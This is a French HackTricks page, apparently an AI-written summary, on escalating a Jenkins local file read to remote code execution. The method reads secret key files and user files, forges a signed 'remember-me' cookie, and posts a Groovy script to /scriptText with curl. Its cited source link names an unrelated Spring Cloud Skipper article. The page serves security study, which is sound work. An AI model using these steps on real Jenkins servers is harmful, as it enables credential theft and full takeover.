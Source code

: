 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Dans cet article de blog, il est possible de trouver un excellent moyen de transformer une vulnérabilité d'inclusion de fichier local dans Jenkins en RCE : [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ceci est un résumé créé par IA de la partie de l'article où la création d'un cookie arbitraire est exploitée pour obtenir RCE en abusant d'une lecture de fichier local jusqu'à ce que j'aie le temps de créer un résumé moi-même :

### Prérequis à l'attaque

* **Exigence de fonctionnalité :** "Se souvenir de moi" doit être activé (paramètre par défaut).
* **Niveaux d'accès :** L'attaquant a besoin de permissions Globales/Lecture.
* **Accès secret :** Capacité à lire à la fois le contenu binaire et textuel à partir de fichiers clés.

### Processus d'exploitation détaillé

#### Étape 1 : Collecte de données

**Récupération des informations utilisateur**

* Accéder à la configuration utilisateur et aux secrets depuis `$JENKINS_HOME/users/*.xml` pour chaque utilisateur afin de rassembler :
* **Nom d'utilisateur**
* **Graine utilisateur**
* **Horodatage**
* **Hash du mot de passe**

**Extraction de la clé secrète**

* Extraire les clés cryptographiques utilisées pour signer le cookie :
* **Clé secrète :** `$JENKINS_HOME/secret.key`
* **Clé maître :** `$JENKINS_HOME/secrets/master.key`
* **Fichier de clé MAC :** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Étape 2 : Forging de cookie

**Préparation du jeton**

*   **Calculer le temps d'expiration du jeton :**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Ajoute une heure au temps actuel
```
{% endcode %}
*   **Concaténer les données pour le jeton :**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Déchiffrement de la clé MAC**

*   **Déchiffrer le fichier de clé MAC :**

```javascript
key = toAes128Key(masterKey)  // Convertir la clé maître en format de clé AES128
decrypted = AES.decrypt(macFile, key)  // Déchiffrer le fichier .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Calcul de la signature**

*   **Calculer HMAC SHA256 :**

```javascript
mac = HmacSHA256(token, macKey)  // Calculer HMAC en utilisant le jeton et la clé MAC
tokenSignature = bytesToHexString(mac)  // Convertir la MAC en chaîne hexadécimale
```

**Encodage du cookie**

*   **Générer le cookie final :**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Encoder en base64 les données du cookie
```
{% endcode %}

#### Étape 3 : Exécution de code

**Authentification de session**

* **Récupérer les jetons CSRF et de session :**
* Faire une requête à `/crumbIssuer/api/json` pour obtenir `Jenkins-Crumb`.
* Capturer `JSESSIONID` de la réponse, qui sera utilisé en conjonction avec le cookie "se souvenir de moi".

**Requête d'exécution de commande**

*   **Envoyer une requête POST avec un script Groovy :**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Le script Groovy peut être utilisé pour exécuter des commandes au niveau système ou d'autres opérations dans l'environnement Jenkins.

L'exemple de commande curl fourni démontre comment faire une requête à Jenkins avec les en-têtes et cookies nécessaires pour exécuter du code arbitraire en toute sécurité.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
